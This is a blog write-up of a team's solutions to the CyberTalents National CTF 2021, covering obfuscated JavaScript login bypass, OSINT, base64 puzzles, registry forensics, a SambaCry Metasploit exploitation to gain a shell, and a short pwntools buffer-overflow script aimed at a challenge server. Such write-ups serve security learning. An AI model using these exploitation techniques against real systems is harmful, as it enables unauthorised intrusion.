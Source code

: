 ```yaml
---
title: "CyberTalents National CTF"
author: "Trevor saudi"
date: 2021-09-12T11:01:27.242Z
lastmod: 2022-05-24T14:32:06+03:00

description: ""

subtitle: "My team and I recently took place in the CyberTalents National CTF 2021 where we emerged 1st in Kenya :) We managed to solve all…"

image: "/posts/2021-09-12_cybertalents-national-ctf/images/1.png" 
images:
 - "/posts/2021-09-12_cybertalents-national-ctf/images/1.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/2.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/3.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/4.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/5.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/6.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/7.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/8.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/9.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/10.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/11.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/12.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/13.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/14.png"
 - "/posts/2021-09-12_cybertalents-national-ctf/images/15.png"


aliases:
    - "/cybertalents-national-ctf-68f38cf7db2a"

---
```


![image](/posts/2021-09-12_cybertalents-national-ctf/images/1.png#layoutTextWidth)


My team and I recently took place in the CyberTalents National CTF 2021 where we emerged 1st in Kenya :) We managed to solve all challenges but one. Here are some of the writeups for the challenges we solved

Since the challenges are down, I will try my best to reconstruct the solutions

### Argos-web 50 pts

Argos was an ‘easy’ rated challenge, well some may tend to disagree :) This challenge was solved by @[k0imet](https://twitter.com/k0imet_)

First step involved a directory bruteforce on the challenge link, which gave us a directory **java.php .** This page contained some obfuscated javascript that handled the authentication.

```javascript
'use strict';

function _0x267a(_0x29ae1d, _0x59beb8) {
  var _0x2dca0b = _0x2dca();
  return _0x267a = function (_0x267a3d, _0x79f9b7) {
    _0x267a3d = _0x267a3d - 0x116;
    var _0x4cbcf2 = _0x2dca0b[_0x267a3d];
    return _0x4cbcf2;
  }, _0x267a(_0x29ae1d, _0x59beb8);
}
var _0x18eaa6 = _0x267a;

function _0x2dca() {
  var _0x4a962f = ['556864LePYhO', '93KGoDMv', 'wrong\x20Password', '14665ltxznd', '41121RGIWyS', '50236HEZbSV', '75OrlJRv', '260kpgQAa', '1316543gDJbid', '80096jdpdhM', 'value', '318iCKAiJ', '17205968dLvimS', 'getElementById', 'CT2021', '12SXIKHp', '232oiseyT'];
  _0x2dca = function () {
    return _0x4a962f;
  };
  return _0x2dca();
}(function (_0x59e2bc, _0x3b27b9) {
  var _0x3463b2 = _0x267a,
    _0x486916 = _0x59e2bc();
  while (!![]) {
    try {
      var _0x4861c6 = -parseInt(_0x3463b2(0x120)) / 0x1 + -parseInt(_0x3463b2(0x11d)) / 0x2 * (parseInt(_0x3463b2(0x119)) / 0x3) + -parseInt(_0x3463b2(0x121)) / 0x4 * (-parseInt(_0x3463b2(0x11e)) / 0x5) + -parseInt(_0x3463b2(0x123)) / 0x6 * (-parseInt(_0x3463b2(0x11b)) / 0x7) + -parseInt(_0x3463b2(0x117)) / 0x8 * (parseInt(_0x3463b2(0x11c)) / 0x9) + parseInt(_0x3463b2(0x11f)) / 0xa * (parseInt(_0x3463b2(0x118)) / 0xb) + -parseInt(_0x3463b2(0x116)) / 0xc * (-parseInt(_0x3463b2(0x124)) / 0xd);
      if (_0x4861c6 === _0x3b27b9) break;
      else _0x486916['push'](_0x486916['shift']());
    } catch (_0x3e62db) {
      _0x486916['push'](_0x486916['shift']());
    }
  }
}(_0x2dca, 0xc909d));
var _0xae5b = [_0x18eaa6(0x122), 'user', _0x18eaa6(0x125), 'pass', _0x18eaa6(0x126), '\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20Congratz\x20\x0a\x0a', _0x18eaa6(0x11a)];

function check() {
  var _0x105bf3 = document[_0xae5b[0x2]](_0xae5b[0x1])[_0xae5b[0x0]],
    _0xe27d13 = document[_0xae5b[0x2]](_0xae5b[0x3])[_0xae5b[0x0]];
  _0x105bf3 == _0xae5b[0x4] && _0xe27d13 == _0xae5b[0x4] ? alert(_0xae5b[0x5]) : alert(_0xae5b[0x6]);
};
```

The important function to look at is **check**. Towards the end a comparison is made and an alert is given. The alert was the error message shown if the login was correct or incorrect. We also have an array of strings and in the array is a string called ‘CT2021’

This [writeup](https://hackersdad.medium.com/cybertalents-ctf-this-is-sparta-write-up-adb1fd0263e9) has a similar challenge and we can find out which variables are being passed. CT2021 was the user and pass for the website, which upon login gives us the flag.

### Missing person-osint 50 pts

In this challenge we had trace the most recent online activity of a missing person. We were given this [https://bitly.com/3frKIAX](https://bitly.com/3frKIAX) link which led us to a twitter account with protected tweets.

![image](/posts/2021-09-12_cybertalents-national-ctf/images/2.png#layoutTextWidth)


From the new twitter url [https://twitter.com/rzsdw2iwug77eda/status/1394223468003176455](https://twitter.com/rzsdw2iwug77eda/status/1394223468003176455)

We can spot the username [**rzsdw2iwug77eda**](https://twitter.com/rzsdw2iwug77eda/status/1394223468003176455)**.** So immediately my mind went to [sherlock](https://github.com/sherlock-project/sherlock).

![image](/posts/2021-09-12_cybertalents-national-ctf/images/3.png#layoutTextWidth)


We get a pastebin, with a date

![image](/posts/2021-09-12_cybertalents-national-ctf/images/4.png#layoutTextWidth)


So apparently this is a red herring. This date wasn’t the user’s most recent activity.

After thinking for a while. I decided to try and trace when the bit.ly was created. My [teammate](https://twitter.com/k0imet_) ended up uncovering the trick. By adding a ‘+’ to the end of the bit.ly link you can trace when it was first created. The date here was the solution

![image](/posts/2021-09-12_cybertalents-national-ctf/images/5.png#layoutTextWidth)


### Laggy Decoder-secure coding 100pts

In this challenge, we needed to fix the source code provided. The data being passed to the function was not being sanitized and one could achieve some XSS

Modify the utils file to . Submitting the modified code gives us the flag

![image](/posts/2021-09-12_cybertalents-national-ctf/images/6.png#layoutTextWidth)


### 64rev-cryptography 100pts

This solution was curated by @[k0imet](https://twitter.com/k0imet_) and @[mystickev](https://twitter.com/mystic_kev) . We are given a base64 encode string 
```
fdXU1Z2hSRwIzaHAxQ8zcjNIX3MxNUdqaWRmPT09XiNUdqaWRmPT09XihkZCUtVGhncz8lHJmIzmh1dGRyZ0Zmd2dlfV8zcjNIX3MxX3IzaHAxQ18zNXIzdjNSXzNscG0zNV97Z2FsZgZGRmNVxQ18zanNnaGZkYWhocaWRmPT0TWNkc2hdXU1Z2hSRwIzaHAxQ8zcjNIX3MxNfV9fM3IzSF9zMV9yM2hwMUNfMzVyM3YzUl8zbHBtMzVfX3tnYWxm==
```
Using cyberchef to decode , you can pick out bits of the flag in the output i.e 1s_H3r3

![image](/posts/2021-09-12_cybertalents-national-ctf/images/7.png#layoutTextWidth)


So our goal is to remove noise from the base64 string by removing some chunks of bytes. Removing fd at the beginning and == at the end

![image](/posts/2021-09-12_cybertalents-national-ctf/images/8.png#layoutTextWidth)


We get 2 flags. One of them was the answer

### Red pipe -machines 100pts

For this challenge, we are given an IP for a machine. We need to gain a shell and get the flag.

![image](/posts/2021-09-12_cybertalents-national-ctf/images/9.png#layoutTextWidth)


From the challenge name I suspected the solution would involve pipes. So I google the samba version of the nmap results

![image](/posts/2021-09-12_cybertalents-national-ctf/images/10.png#layoutTextWidth)


So our vuln was the is_known_pipename() from SambaCry. Luckily metasploit has this module

![image](/posts/2021-09-12_cybertalents-national-ctf/images/11.png#layoutTextWidth)


We get a shell

![image](/posts/2021-09-12_cybertalents-national-ctf/images/12.png#layoutTextWidth)


### Roony-forensics 100pts

This was a simple forensics challenge that required us to utilize a registry explorer tool to find the most recent executed application

After tons of googling. I found a tool called Registry Explorer that could simplify the solution. All I needed to do was supply a registry key to navigate the file hierachy as follows

Load the hive file

![image](/posts/2021-09-12_cybertalents-national-ctf/images/13.png#layoutTextWidth)


Interact with the hive file to get an overview of the file hierachy

![image](/posts/2021-09-12_cybertalents-national-ctf/images/14.png#layoutTextWidth)


Use the registry key — ‘recent file list’ to get the most recent executed application

![image](/posts/2021-09-12_cybertalents-national-ctf/images/15.png#layoutTextWidth)


The flag was gpedit.msc

### Ch4nger —Exploitation 50 pts easy

This solution was curated by my teammate @[gilbert](https://twitter.com/BinaryChunk). It is a simple buffer overflow challenge where we need to overwrite the return address with _0x_deadbeef

We can solve the challenge using pwntools as follows
```python3
#!/usr/bin/python3

from pwn import * 


filename = "./chall"

#io = process(filename)
io = remote("3.122.102.231", 6666)
context.clear(arch="i386")

def main():
	payload = b"A"*200 + p32(0xdeadbeef)
	io.sendline(payload)
	flag = io.recvline().decode().strip()
	log.info("The final flag is: \n\t %s" % flag)

if __name__ == "__main__":
	main()
```



These were the tricky challenges in the CTF and I hope you learned a thing or two. Follow like and share if you enjoyed :)
